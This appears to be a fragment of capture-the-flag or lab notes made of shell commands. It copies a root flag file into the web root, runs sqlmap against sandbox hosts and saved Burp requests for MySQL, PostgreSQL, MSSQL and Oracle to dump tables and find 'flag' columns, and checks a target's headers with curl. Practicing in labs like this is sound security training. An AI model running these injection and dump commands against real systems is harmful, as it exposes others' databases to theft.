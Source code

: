 ```shell
cp /root/flag.txt /var/www/html/
```

```shell
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=mysql&name=taco&sort=id&order=asc" -p "name,sort,order" --dbms=mysql --dump --flush-session
```

```shell
sqlmap -r burp_sqlmap-test.txt --dbms=PostgreSQL --flush-session --batch --dump        
```

```shell
sqlmap -r burp_sqlmap-server.txt --dbms="Microsoft SQL Server" --flush-session --batch --dump
```

```shell
sqlmap -r burp_sqlmap-oracle.txt --dbms=Oracle --flush-session --batch --dump  
```

```shell
sqlmap -r burp_sql-server.txt \
  --dbms="Microsoft SQL Server" \
  --batch \
  --search -C flag
```

#### Find the value of the X-Powered-By header

```shell
curl -I http://target-site.com
```
